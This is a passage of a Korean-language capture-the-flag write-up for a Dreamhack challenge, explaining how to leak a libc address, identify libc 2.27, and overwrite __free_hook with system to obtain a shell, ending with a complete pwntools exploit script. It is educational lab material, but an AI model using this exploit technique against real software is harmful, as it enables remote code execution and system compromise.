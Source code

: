 0x7fbd43883bf7인데 ASLR의 특징은 하위 1.5바이트(bf7)은 오프셋으로 고정되어 있고 나머지 주소가 변경되는 특징을 가지고 있다. 따라서 이 하위 1.5바이트를 통해서 서버 측의 라이브러리를 알아낼 수 있다. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/646f9fed-1638-4abc-b8bf-91b597372917/Untitled.png)

[libc.rip](http://libc.rip) 에서 __libc_start_main_ret의 마지막 1.5바이트가 bf7인건 어떤 라이브러리인지 물어보면 된다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9c4cb0c9-33b3-456d-8431-964441d26f2f/Untitled.png)

그러면 위와 같이 사용하고 있는 라이브러리 버전이 libc6_2.27이며 이 라이브러리에서의 __libc_start_main_ret의 오프셋은 0x21bf7임을 알려준다.

이를 문제에서 준 라이브러리와 버전을 비교해보면 정확하게 libc_2.27.so로 똑같음을 확인할 수 있다. 

즉 유출한 __libc_start_main_ret의 주소에서 -0x21bf7을 하면 라이브러리의 base 주소를 알아낼 수 있다. 이 값과 offset을 통해서 원하는 함수를 실행시킬 수 있다.

공격은 두가지 방법이 존재하는데

1. 문제에서 제공한 것 처럼 특정 주소(addr)에 특정 값(value)를 덮어씌울 수 있으므로 이주소에 system 함수를 전달한 후 free의 인자로 “/bin/sh” 문자열이 담겨 있는 주소를 전달하여 system(”/bin/sh”)가 실행되도록 한다.
2. one_gadget의 오프셋을 사용하여 특정주소(addr)에 execve(”/bin/sh”)의 주소를 전달한다. 이렇게 하면 free의 인자로 아무값이나 보내도 execve(”/bin/sh”)가 실행되므로 “/bin/sh”문자열이 담겨있는 주소를 찾지 않아도 된다는 장점이 있다.

위에서 문자열 bin_sh가 라이브러리에 담겨있는 오프셋은 0x1b3e1a이므로 이 값을 라이브러리 베이스 주소에서 더하면 문자열 bin_sh이 담겨있는 주소가 된다.

# system(”/bin/sh”)를 실행시키는 풀이

현재 libc_base 주소를 알아내는 것까지 완료하였다. 

이제 이를 기반으로 system 함수의 주소, free_hook 함수의 주소, 문자열 “/bin/sh”이 담겨있는 주소를 구한다. 

이제 free가 실행될 때 free_hook에 핸들러가 있으면 먼저 실행시키게 되므로 free_hook 주소에 system 주소를 담아준 후 free의 인자로 문자열 /bin/sh가 담겨 있는 주소를 보내어 실행시키면 된다.

```python
#!/usr/bin/python3
from pwn import *

#context.log_level = 'debug'

host="host3.dreamhack.games"
port=11211
p=remote(host,port)

e=ELF('./fho') # 파일 불러오기
libc = ELF('./libc-2.27.so') # 라이브러리 불러오기

payload =b'A'*0x48
p.sendafter("Buf: ", payload)
p.recvuntil(payload)
libc_start_main_ret = u64(p.recvline()[:-1]+b'\x00'*2)
print(hex(libc_start_main_ret))
libc_base = libc_start_main_ret - 0x21bf7

system = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
binsh = libc_base + 0x1b3e1a

p.recvuntil("To write: ")
p.sendline(str(free_hook))
p.recvuntil("With: ")
p.sendline(str(system))

p.recvuntil("To free: ")
p.sendline(str(binsh))

p.interactive()
```